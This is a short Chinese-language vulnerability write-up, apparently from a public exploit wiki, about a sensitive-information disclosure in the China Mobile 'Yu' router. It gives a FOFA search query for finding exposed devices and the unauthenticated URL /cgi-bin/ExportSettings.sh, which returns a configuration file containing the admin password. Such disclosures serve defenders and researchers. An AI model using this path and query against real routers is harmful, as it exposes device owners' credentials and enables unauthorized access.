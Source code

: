 # 中国移动 禹路由 ExportSettings.sh 敏感信息泄露漏洞

## 漏洞描述

中国移动 禹路由 ExportSettings.sh 存在敏感信息泄露漏洞，攻击者通过漏洞获取配置文件，其中包含账号密码等敏感信息

## 漏洞影响

> [!NOTE]
>
> 中国移动 禹路由

## FOFA

> [!NOTE]
>
> title="互联世界 物联未来-登录"

## 漏洞复现

登录页面如下

![image-20210618173233203](http://wikioss.peiqi.tech/vuln/image-20210618173233203.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

访问Url

```
/cgi-bin/ExportSettings.sh
```

![image-20210618180802731](http://wikioss.peiqi.tech/vuln/image-20210618180802731.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

其中password为登录后台密码